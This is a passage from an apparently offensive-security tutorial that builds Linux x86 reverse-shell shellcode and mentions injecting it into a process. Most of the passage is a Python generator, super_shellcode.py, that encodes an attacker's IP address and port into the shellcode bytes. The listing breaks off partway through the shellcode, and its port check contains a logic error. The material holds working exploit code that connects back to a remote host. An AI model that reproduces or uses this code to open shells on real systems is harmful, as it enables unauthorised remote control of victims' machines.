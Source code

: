 As you can see, everything work perfectly. Now, you can use this shellcode and inject it into a process.   

But there is one caveat. Let's go to make the ip and port easily configurable.    

### configurable IP and port

To solve this problem I created a simple python script (`super_shellcode.py`):
```py
import socket
import argparse
import sys

BLUE = '\033[94m'
GREEN = '\033[92m'
YELLOW = '\033[93m'
RED = '\033[91m'
ENDC = '\033[0m'

def my_super_shellcode(host, port):
    print (BLUE)
    print ("let's go to create your super shellcode...")
    print (ENDC)
    if int(port) < 1 and int(port) > 65535:
        print (RED + "port number must be in 1-65535" + ENDC)
        sys.exit()
    if int(port) >= 1 and int(port) < 1024:
        print (YELLOW + "you must be a root" + ENDC)
    if len(host.split(".")) != 4:
        print (RED + "invalid host address :(" + ENDC)
        sys.exit()

    h = socket.inet_aton(host).hex()
    hl = [h[i:i+2] for i in range(0, len(h), 2)]
    if "00" in hl:
        print (YELLOW)
        print ("host address will cause null bytes \
        to be in shellcode :(")
        print (ENDC)
    h1, h2, h3, h4 = hl

    shellcode_host = "\\x" + h1 + "\\x" + h2
    shellcode_host += "\\x" + h3 + "\\x" + h4
    print (YELLOW)
    print ("hex host address:")
    print (" x" + h1 + "x" + h2 + "x" + h3 + "x" + h4)
    print (ENDC)

    p = socket.inet_aton(port).hex()[4:]
    pl = [p[i:i+2] for i in range(0, len(p), 2)]
    if "00" in pl:
        print (YELLOW)
        print ("port will cause null bytes \
        to be in shellcode :(")
        print (ENDC)
    p1, p2 = pl

    shellcode_port = "\\x" + p1 + "\\x" + p2
    print (YELLOW)
    print ("hex port: x" + p1 + "x" + p2)
    print (ENDC)

    shellcode = "\\x6a\\x66\\x58\\x6a\\x01\\x5b\\x31"
    shellcode += "\\xd2\\x52\\x53\\x6a\\x02\\x89\\xe1\\xcd"
```